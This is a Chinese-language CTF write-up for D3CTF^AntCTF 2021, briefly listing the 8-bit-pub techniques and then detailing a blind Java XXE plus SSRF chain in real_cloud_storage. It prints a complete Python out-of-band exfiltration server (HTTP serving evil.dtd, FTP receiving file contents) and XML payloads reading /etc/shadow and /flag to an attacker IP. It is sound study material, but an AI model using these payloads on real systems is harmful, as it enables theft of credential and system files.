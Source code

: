 ```yaml
---
title: "D3ctf^antctf2021复现"
date: 2021-03-10T14:18:14+08:00
draft: true
image: https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210311143228.png
description: 
categories: 
- ctf_writeup
tags:
- XXE
- 原型链污染
- NodeJS
---
```


### 8-bit-pub

考点：json sqli、绕过\__proto__、原型链污染、sendmail参数注入

给了源码：[source.zip](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/D3ctf%5EAntctf/%5BD3ctf%5EAntctf%5D8-bit-hub/8-bit_pub.zip)

打开VSCode，审计，主要功能点在`controller/userController.js`（登陆注册）和`controller/adminController.js`（发送邮件），不过在调用adminController之前会调用`utils/auth.js`进行鉴权。



### real_cloud_storage

考点：Java-XXE盲打+SSRF

![image-20210310204312081](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210311114541.png)

题目是一个文件上传的服务，抓包观察，上传会向第二个服务端POST数据，然后第二个服务端会对第三个服务端PUT请求。

可以更改我们发起的POST参数让第二个服务端像我们自己的VPS发送PUT请求数据：

![image-20210310204711368](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210311114549.png)

修改之后我们能收到一个来自第二个服务端的PUT请求：

![image-20210310200933160](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210311114554.png)

我们可以仿照这个请求，对第三个服务端直接发起请求：

![image-20210310205313565](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210311114600.png)

返回了一个XML的报错信息；

按照逻辑，第二个服务端肯定会解析第三个服务端返回的信息，然后返回第一个服务端再返回给给客户端，既然解析了xml那么就有可能存在xxe。

事实上，如果去查看nos-sdk-java的源码的话，也可以发现确实是存在解析这个操作。https://github.com/NetEase-Object-Storage/nos-java-sdk

倘若我们控制这个返回信息，让第二个服务端加载我们的外部实体，就有可能读取这台机器上的文件。

接下来就是Java的xxe盲打，这在X1cT34m第二次考核遇见过，利用ftp外带信息。

直接上exp：

```python
#!/usr/bin/env python

import SocketServer
from threading import Thread
from time import sleep
import logging
from sys import argv

logging.basicConfig(filename='server-xxe-ftp.log',level=logging.DEBUG)

"""
The XML Payload you should send to the server!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/shadow">
  <!ENTITY % dtd SYSTEM "http://x.x.x.x:8888/evil.dtd">
  %dtd;
]>
<data>&send;</data>
"""

payload = """<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://{}:{}/%file;'>">
%all;"""

def wlog(_str):
    print _str
    logging.info("{}\n".format(_str))

class WebServer(SocketServer.BaseRequestHandler):
    """
    Request handler for our webserver.
    """

    def handle(self):
        """
        Blanketly return the XML payload regardless of who's asking.
        """
        resp = """HTTP/1.1 200 OK\r\nContent-Type: application/xml\r\nContent-length: {}\r\n\r\n{}\r\n\r\n""".format(len(payload), payload)
        # self.request is a TCP socket connected to the client
        self.data = self.request.recv(4096).strip()
        wlog("[WEB] {} Connected and sent:".format(self.client_address[0]))
        wlog("{}".format(self.data))
        # Send back same data but upper
        self.request.sendall(resp)
        wlog("[WEB] Replied with:\n{}".format(resp))

class FTPServer(SocketServer.BaseRequestHandler):
    """
    Request handler for our ftp.
    """

    def handle(self):
        """
        FTP Java handler which can handle reading files
        and directories that are being sent by the server.
        """
        # set timeout
        self.request.settimeout(10)
        wlog("[FTP] {} has connected".format(self.client_address[0]))
        self.request.sendall("220 xxe-ftp-server\n")
        try:
            while True:
                self.data = self.request.recv(4096).strip()
                wlog("[FTP] Received:\n{}".format(self.data))
                if "LIST" in self.data:
                    self.request.sendall("drwxrwxrwx 1 owner group          1 Feb 21 04:37 rsl\n")
                    self.request.sendall("150 Opening BINARY mode data connection for /bin/ls\n")
                    self.request.sendall("226 Transfer complete.\n")
                elif "USER" in self.data:
                    self.request.sendall("331 password please - version check\n")
                elif "PORT" in self.data:
                    wlog("[FTP] ! PORT received")
                    wlog("[FTP] > 200 PORT command ok")
                    self.request.sendall("200 PORT command ok\n")
                elif "SYST" in self.data:
                    self.request.sendall("215 RSL\n")
                else:
                    wlog("[FTP] > 230 more data please!")
                    self.request.sendall("230 more data please!\n")
        except Exception, e:
            if "timed out" in e:
                wlog("[FTP] Client timed out")
            else:
                wlog("[FTP] Client error: {}".format(e))
        wlog("[FTP] Connection closed with {}".format(self.client_address[0]))

def start_server(conn, serv_class):
    server = SocketServer.TCPServer(conn, serv_class)
    t = Thread(target=server.serve_forever)
    t.daemon = True
    t.start()
    
if __name__ == "__main__":
    if not argv[1]:
        print "[-] Need public IP of this server in order to receive data."
        exit(1)
    WEB_ARGS = ("0.0.0.0", 8888)
    FTP_ARGS = ("0.0.0.0", 2121)
    payload = payload.format(argv[1],FTP_ARGS[1])
    wlog("[WEB] Starting webserver on %s:%d..." % WEB_ARGS)
    start_server(WEB_ARGS, WebServer)
    wlog("[FTP] Starting FTP server on %s:%d..." % FTP_ARGS)
    start_server(FTP_ARGS, FTPServer)
    try:
        while True:
            sleep(10000)
    except KeyboardInterrupt, e:
        print "\n[+] Server shutting down."#   
```

运行脚本，然后让控制返回信息，使用郭院士推荐的：https://requestrepo.com/

返回的信息：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///flag">
  <!ENTITY % dtd SYSTEM "http://1xx.xx.xx.5:8888/evil.dtd">
  %dtd;
]>
<data>&send;</data>

```

就可以收到flag了：

![image-20210310222506300](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210311114607.png)

其实这题不算难，关键点在于你能不能想到第二个服务端会解析返回的xml信息，当然去审计源码也是可以的。